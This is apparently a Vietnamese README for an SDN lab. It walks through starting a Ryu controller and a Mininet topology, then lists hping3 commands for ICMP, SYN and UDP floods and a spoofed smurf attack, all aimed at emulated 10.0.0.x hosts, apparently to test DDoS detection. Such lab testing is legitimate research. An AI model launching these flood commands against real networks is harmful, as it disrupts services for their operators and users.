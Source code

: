 <h1>Các bước chạy hệ thống</h1>

<h3>Khởi động Ryu Controller và vào thư mục chứa RyuController file controller.py</h3> 

```bash
#Kiểm tra IP
ifcongif
# Lưu IP để chuẩn bị sửa cho topology.py và vào thư mục RyuController
cd RyuController

# Chạy file controller.py
ryu-manager controller.py
```


<h3>Khởi động Mininet và vào thư mục Mininet chứa file topology.py</h3>

```bash
# Vào thư mục mininet
cd Mininet

# Chỉnh lại IP của Ryu Controller mà ta đã lưu trước đó
nano topology.py

# Chạy file topology.py
sudo python topology.py
```

<h3>Các lệnh ping</h3> 

```bash
# icmp flood
hping3 -1 -V -d 120 -w 64 -p 80 --rand-source --flood 10.0.0.12
```
```bash
# syn flood
hping3 -S -V -d 120 -w 64 -p 80 --rand-source --flood 10.0.0.1
```
```bash
# udp flood
hping3 -2 -V -d 120 -w 64 -p 80 --rand-source --flood 10.0.0.7
```
```bash
# smurf attack
hping3 -1 -V -d 120 -w 64 -p 80 --rand-source --flood -a 10.0.0.17 10.0.0.17
```
